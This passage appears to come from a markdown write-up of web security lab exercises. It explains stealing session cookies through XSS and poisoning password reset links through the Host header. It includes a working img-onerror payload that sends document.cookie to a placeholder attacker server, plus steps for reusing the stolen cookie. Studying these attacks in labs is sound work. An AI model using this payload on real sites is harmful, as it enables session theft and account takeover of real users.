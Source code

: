 
### Stealing stay-logged-in cookie with XSS

XSS can also be used to stay session cookies from users. Sometimes we are able to inject an XSS payload that forwards the cookies of whoever accesses the page with injected scripts to a server under our control.

For that, we can write an HTML image tag like the following:

`<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>`

This tag is basically injecting an image on the page with “x” as it’s source. As there’s no such path called “x”, the `onerror` event will be triggered, causing the victim’s browser to look for the new image’s source in the provided URL. That URL is our web server. We are leading the victim’s browser to fetch the server with the “c” parameter having the value of `document.cookie` (the victim's cookies). Then we just need to access our server’s access log and look for the part where the cookie is located on each access. With that cookie in hand, we are able to either inject it into our browser to log-in the victim’s account or try cracking the hash to recover their actual password.

---

### Password reset poisoning via middleware

Some application generate dynamic URLs for the password reset feature. Those applications might be vulnerable to password reset poisoning via middleware.

![alt text](image-6.png)

This is the password reset link sent by e-mail when submitting the password reset form, containing either the user’s username or e-mail.

```
GET /forgot-password?temp-forgot-password-token=e7e5umk9suti5r2ddxfnybd78hnhk8pk HTTP/2
Host: 0a7700be036a44be81c243b9008400ef.web-security-academy.net
```

When clicking the link, this request is generated. It contains a token unique to the user. If we are able to modify the Host header for this request, we can set it to point to a server under our control.
